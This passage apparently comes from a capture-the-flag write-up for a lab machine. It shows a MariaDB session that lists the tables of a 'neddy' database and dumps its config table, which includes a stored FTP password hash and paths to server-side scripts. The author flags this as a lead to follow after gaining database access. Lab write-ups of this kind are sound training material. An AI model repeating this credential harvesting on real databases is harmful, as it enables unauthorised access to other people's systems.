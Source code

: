 ```
Database changed
MariaDB [neddy]> show tables;
show tables;
+-----------------+
| Tables_in_neddy |
+-----------------+
| config          |
| customers       |
| employees       |
| filepath        |
| idname          |
| offices         |
| orderdetails    |
| orders          |
| payments        |
| productlines    |
| products        |
+-----------------+
11 rows in set (0.00 sec)

MariaDB [neddy]>
```
After enumerating all of these, `config` is the most interesting.
```
MariaDB [neddy]> select * from config;
select * from config;
+-----+-------------------------+--------------------------------------------------------------------------+
| id  | option_name             | option_value                                                             |
+-----+-------------------------+--------------------------------------------------------------------------+
...
|  73 | ftp_pass                | 0e1aff658d8614fd0eac6705bb69fb684f6790299e4cf01e1b90b1a287a94ffcde451466 |
|  74 | ftp_root                | /                                                                        |
|  75 | ftp_enable              | 1                                                                        |
|  76 | offset                  | UTC                                                                      |
|  77 | mailonline              | 1                                                                        |
|  78 | mailer                  | mail                                                                     |
|  79 | mailfrom                | nested@nestedflanders.htb                                                |
|  80 | fromname                | Neddy                                                                    |
|  81 | sendmail                | /usr/sbin/sendmail                                                       |
|  82 | smtpauth                | 0                                                                        |
|  83 | smtpuser                |                                                                          |
|  84 | smtppass                |                                                                          |
|  85 | smtppass                |                                                                          |
|  86 | checkrelease            | /home/guly/checkbase.pl;/home/guly/checkplugins.pl;                      |
|  87 | smtphost                | localhost
...
```